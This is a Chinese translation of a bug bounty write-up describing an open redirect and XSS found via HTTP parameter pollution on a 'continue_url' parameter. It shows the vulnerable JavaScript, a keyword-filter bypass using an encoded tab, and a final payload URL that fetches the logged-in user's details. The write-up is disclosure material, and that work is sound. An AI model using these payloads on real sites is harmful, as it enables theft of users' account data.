



# 窃取用户信息-链接 XSS 和 Http 参数污染

> 原文：<https://levelup.gitconnected.com/stealing-user-information-via-xss-via-parameter-pollution-7d99b3379e7d>

我正在闲逛，突然这条推特出现在我的新闻订阅里。


[@zseano](http://twitter.com/zseano) 励志推文😁让我热泪盈眶

然后，我决定给自己一个新的开始，因为现在是 2021 年🎉。我登录了我的 [bugcrowd](https://bugcrowd.com) 账号，根据我的技能挑选了一个合适的目标(在这个目标上我曾经发现过 bug)。

我从源代码审查开始，审查了他们的一堆 javascript 文件，最终发现两个端点似乎容易受到**开放重定向+ XSS** 的攻击，因为开发人员允许应用程序在执行特定操作后重定向用户，而不是服务器，如下所示:

```
function get_param(param) {
    var params = {};
    var url = window.location.href;
    var start = url.indexOf('?');
    start = start < 0 ? url.length : start + 1;
    var end = url.indexOf('#');
    end = end < 0 ? url.length : end;
    var parameters = url.slice(start,end).split('&');for ( var i = 0; i < parameters.length; i++) {
        var parameter = parameters[i].split('=');
        params[parameter[0]] = parameter[1];
    } return params[param];
}// redirect from application
window.location.href = get_param("continue_url"); 
```

# 测试

我首先试图获得一个开放的重定向，但是服务器在发现任何其他域或在`continue_url`参数中的有效负载时重定向到一个`404`页面。因为我已经意识到服务器的环境是 Java 的，并且它的流行是因为参数污染。因此，我尝试两次添加相同的参数`?continue_url=redacted.com&continue_url=attacker.com`来验证它，令我惊讶的是，服务器只检查了 Uri 中的第一个参数，而忽略了受我的有效负载影响的第二个参数，这只是绕过了服务器的限制，导致重定向到`attacker.com`，但这是怎么做到的呢？让我们倒回去。

在那一点上，我也有点困惑，但是如果你和 javascript 曾经有过交集，那么你可能已经注意到了`get_param(param)`函数有问题。很耐人寻味，不是吗？你也应该试一试。我只能说，要么是开发人员没有完全意识到 Java 处理多个同名参数的行为，要么是他们在编写函数时没有考虑到这个问题。因此，该函数只是用重复的条目覆盖参数(仅)的值。

```
params[parameter[0]] = parameter[1];
```

如果有多个相同参数的条目，上面的代码将简单地用新值重写键`continue_url`的旧值。因此，如果我们用我们提供的参数调试上面的代码行，它看起来会像这样:

```
// setting value to continue_url
params["continue_url"] = "redacted.com"; // overwriting continue_url using parameter pollution
params["continue_url"] = "attacker.com";
```

因此，params 对象最终将包含以下键/值:



# 获取 XSS 并窃取用户信息

在掌握了服务器故障的诀窍后，我最终试图将这个问题升级到 XSS，并用 javascript 有效载荷`?continue_url=redacted.com&continue_url=javascript:alert(1)`替换它的值，但不幸的是，服务器返回了 **400 错误请求**错误，我就像这样:


因此，在使用`continue_url`参数后，我们发现即使通过参数污染绕过 404 错误，服务器仍然有一点安全，它会检查与`**javascript**`相关的关键字，并限制带有 **400** 错误的响应。

所以，我想出了以下测试案例:

```
**x**javascript:alert(1)  // 400 Bad Request
javaScript**x**:alert(1)  // 400 Bad Request
**x**javascript**x**:alert(1) // 400 Bad Request
java**x**script:alert(1)  // 200 OK (Breaking javascript)
```

在检查了这些测试案例后，我得出结论，服务器要么使用 regex 从参数字符串中提取并匹配可能的 **javascript** 关键字，以防止其受到 XSS 攻击。但是有一种简单的方法可以绕过这种限制，那就是在有效载荷中放入一个 urlencoded 制表符`**%09**`，它可以简单地破坏服务器的验证，而 javascript 完全忽略制表符，这会导致弹出一个警告。所以我使用的最终有效载荷是:

```
javas**%09**cript:alert(1) // 200 OK
```

在创建 POC 的同时，我想为什么不像我们一直做的那样，通过窃取用户信息来提高严重性，并编写了一个简单的脚本来窃取当前登录的用户详细信息:

```
**Script:**
fetch("https://redacted.com/path/to/userinfo").then(a => a.json()).then(a => console.log(a.response)); // Instead of logging user info, an attacker may send it to his/her server**// final payload**
https://redacted.com/endpoint?continue_url=redacted.com&continue_url=java%09Script:fetch(%22https://redacted.com/path/to/userinfo%22).then(a%3D%3Ea.json()).then(a%3D%3Econsole.log(a.response));//
```

# 控制台中记录的受害者信息:



攻击者可能会将其发送到他/她的服务器，但我们只是登录到控制台进行演示。

最终，我把它上报给了这个项目，经过几天的筛选，我终于获得了一个很好的奖励💰那是我 2021 年的第一笔赏金🎉



在推特上关注我:[哈姆扎·阿夫万](https://twitter.com/hamzaavvan)[@哈姆扎·阿夫万](https://twitter.com/hamzaavvan)

[](https://www.digitalocean.com/?refcode=7b5b6401934f&utm_campaign=Referral_Invite&utm_medium=Referral_Program&utm_source=badge)

道德黑客的快速可靠的 VPS